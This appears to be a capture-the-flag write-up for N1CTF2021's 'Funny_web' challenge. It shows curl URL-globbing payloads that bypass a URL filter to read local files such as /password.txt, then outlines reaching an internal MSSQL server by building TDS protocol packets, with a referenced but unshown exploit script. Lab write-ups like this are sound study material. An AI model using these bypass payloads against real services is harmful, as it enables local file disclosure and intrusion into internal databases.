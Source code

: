 ## Funny_web

Reference：[https://github.com/curl/curl/blob/master/src/tool_urlglob.c#L360](https://github.com/curl/curl/blob/master/src/tool_urlglob.c#L360)

bypass url check：`'fi[k-m]e:///hint.txt'`

bypass output check：`'fi[k-m]e:///{hint.txt,7f7d9107-a48b-284e-a29e-66c871bf5706}'`

```
mssql_host：10.11.22.13
mssql_port：1433
mssql_username：sa
mssql_password in /password.txt
flag in HKEY_LOCAL_MACHINE\SOFTWARE\N1CTF2021
```

read mssql password list: `fi[k-m]e:///{password.txt,7f7d9107-a48b-284e-a29e-66c871bf5706}`

```
9fb8da74-5186-4471-9ee5-155539f84e14
8bd2580b-0b8e-4fbf-8b14-dcebfe7e62b7
cc689ef1-3e80-440e-a448-2558bc031c9b
7ce9d6fc-5ce3-4cd7-acb7-1e37651d26a5
d0e7a7fa-6b75-4998-a87d-736170a03110
a75d0240-38d2-47cc-ba6d-f71a2192a675
5514193a-bd35-4b17-98ee-d6e71e1f73dc
....
```

So we need to construct the data packet of the `TDS` protocol.

we can refer to the following url

https://www.freetds.org/tds.html

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/60f56408-0188-4cd5-8b90-25c6f2423868

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/773a62b6-ee89-4c02-9e5e-344882630aac

https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/f2026cd3-9a46-4a3f-9a08-f63140bcbbe3

exp: `exp.py`
